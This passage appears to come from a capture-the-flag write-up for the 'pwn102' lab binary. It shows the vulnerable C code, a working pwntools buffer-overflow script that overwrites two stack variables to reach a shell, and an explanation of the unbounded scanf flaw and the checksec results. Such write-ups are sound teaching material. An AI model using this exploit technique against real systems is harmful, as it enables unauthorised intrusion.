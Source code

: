 ```C
    if (need_what == 0xc0ff33 && to_do == 0xc0d3){
        printf("Yes, I need %x to %x\n",need_what,to_do);
        system("/bin/sh");
    }
    else{
        printf("I'm feeling dead, coz you said I need bad food :(\n");
        exit(1337);
    }
}
```

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF("./pwn102", checksec=False)

if args.REMOTE:
    p = remote("10.10.16.209", 9002)
else:
    p = process(binary.path)

payload = b""
payload += 104*b"A"
payload += p32(0xc0d3)
payload += p32(0xc0ff33)

p.sendlineafter(b"Am I right? ", payload)
p.interactive()
```

#### Step 1: Analyzing the Source Code

The provided C code sets up an environment with `setup()` and prints a banner with `banner()`. The main logic involves:

- Declaring two integer variables, `need_what` and `to_do`, initialized to `0xBADF00D` and `0xFEE1DEAD` respectively.
- Reading user input into a char array `is_this_right` with `scanf()`.
- A condition checks if `need_what` equals `0xc0ff33` and `to_do` equals `0xc0d3`. If true, it executes `/bin/sh`.

#### Step 2: Identifying Vulnerabilities

The main vulnerability lies in using `scanf()` to read into `is_this_right` without limiting input length, allowing for a buffer overflow.

#### Step 3: Check Binary Security

Using `checksec`, we find:

- No stack canary.
- Non-executable stack (NX enabled).
- Position Independent Executable (PIE enabled).
